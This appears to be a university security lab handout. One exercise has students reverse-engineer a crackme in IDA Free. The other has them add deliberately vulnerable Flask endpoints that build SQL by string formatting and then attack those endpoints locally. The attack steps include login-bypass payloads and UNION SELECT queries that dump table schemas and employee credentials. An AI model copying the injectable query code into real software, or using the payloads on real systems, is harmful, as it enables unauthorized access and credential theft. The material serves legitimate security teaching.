

Step 1.1Install IDA Free on Kali Linux
Download the IDA Free installer file from https://hex-rays.com/ida-free request it with your email to get a free licence.
Rename the downloaded file to idafree.run
Grant execution permission:
sudo chmod +x ./Downloads/idafree.run
Run the installer:
./Downloads/idafree.run
Follow the installation instructions. IDA Free will be installed in the user's home directory.
Step 1.2Run the crackme Program on Kali
Go to the Crackme site, download and unzip it with the password:
crackmes.one
After extraction, you will get a zip file named easyAF , unzip it again, the executable file you will get named
Run easyAF in the Linux CMD environment
First, you need to check where the file is stored. Go to that folder and run
./easyAF
Enter to run. It will ask you the password. Just type anything you want because you don't know the password right now.
What did you get?
Step 1.3Open and search on IDA Free
Open IDA Free on Kali Linux and load the easyAF file.
In IDA Free, go to:
Search → Text
Search for the keyword:
password
In the IDA - View A window, select:
Fit window
Use either Text view or Graph view to view the Assembly code of the program.
Step 1.6Analyze the Pseudocode
Analyze the pseudocode of crackme.exe to determine the correct input that makes the program print the following message:
Welldone!
Then run easyAF in the Linux CMD environment and make sure the message above is displayed.
Take screenshots to demonstrate your results.
Question 2: SQL Injection with Python
Important: Perform this activity only on the provided local sample project. Do not test SQL injection against real websites, public services, or systems without explicit permission.
Step 2.1Download the Sample Project
Download the sample project to your local machine from GitHub. You may choose one of the following options.
Option 1: Clone the repository using Git
If Git is installed on your computer, run this command in PowerShell or a terminal:
git clone https://github.com/khanhtran2711/491b3a.git
Then open the project folder in Visual Studio Code.
Option 2: Download the ZIP file
Download the project as a ZIP file from GitHub, unzip it, and open the extracted folder in Visual Studio Code.
Step 2.2Install the Required Dependencies
Open the terminal in Visual Studio Code:
View → Terminal
Or use the shortcut:
Ctrl + `
Install the virtualenv package:
pip install virtualenv
Create a virtual environment inside the project directory. You may replace my_env with your preferred environment name:
virtualenv my_env
Activate the virtual environment on Windows:
.\my_env\Scripts\activate
Install Flask, a lightweight Python web framework:
pip install flask
Step 2.3Insert the Vulnerable API Functions
The attack will target two use cases: login and search item.
In main.py, insert each function after this line:
#typical functions
and before this line:
#error handler redirection
Login handling function:
@app.route('/api/v1.0/storeLoginAPI/', methods=['POST'])
def loginAPI():
if request.method == 'POST':
uname, pword = (request.json['username'], request.json['password'])
g.db = connect_db()
cur = g.db.execute("SELECT * FROM employees WHERE username = '%s' AND password = '%s'" %(uname, hash_pass(pword)))
if cur.fetchone():
result = {'status': 'success'}
else:
result = {'status': 'fail'}
g.db.close()
return jsonify(result)
Search item handling function:
@app.route('/api/v1.0/storeAPI/<item>', methods=['GET'])
def searchAPI(item):
g.db = connect_db()
curs = g.db.execute("SELECT * FROM shop_items WHERE name = '%s'" %item)
results = [dict(name=row[0], quantity=row[1], price=row[2]) for row in curs.fetchall()]
g.db.close()
return jsonify(results)
Step 2.4Run the Project
Execute the project using the following command:
python main.py
The terminal should display output similar to a Flask development server message, including links such as:
* Serving Flask app 'main'
* Debug mode: off
* Running on http://127.0.0.1:5000
* Running on http://<your-local-ip>:5000
Press CTRL+C to quit
Click one of the displayed links to open the webpage in your browser.

Step 2.5Test the Login Functionality
Select Login on the navigation bar.
Perform a successful and legitimate login using this sample account:
Username: newguy29
Password: pass123
Step 2.6Perform SQL Injection on the Login Form
Test for SQL injection in the login form by entering one of the following payloads into the username field. Leave the password field empty. You may try all payloads for comparison.
' or 1 = 1 or '' = '
' or 1=1 --
" or 1=1 --
admin' --
Take screenshots to demonstrate your results.
DiscussionLogin Attack Analysis
Answer the following questions:
- Which security objective within the CIA triad does this attack compromise?
- Propose a solution to resolve this issue.
Step 2.7Test the Search Functionality
Select Search on the navigation bar.
Perform a legitimate search using product names such as:
water
juice
candy
Step 2.8Perform SQL Injection on the Search Form
Test for SQL injection in the search form using the following payloads in top-down order:
# Check if it can work
juice' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
# Get names of tables from the master table
# sqlite_master stores schema information about tables
juice' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
# Get information from two columns and add a third placeholder column
juice' UNION SELECT username,password,3 from employees;--
After executing all three queries above, identify the anomaly.
Take screenshots to demonstrate your results.
DiscussionSearch Attack Analysis
Answer the following questions:
- Which security objective within the CIA triad does this attack compromise?
- Propose a solution to resolve this issue.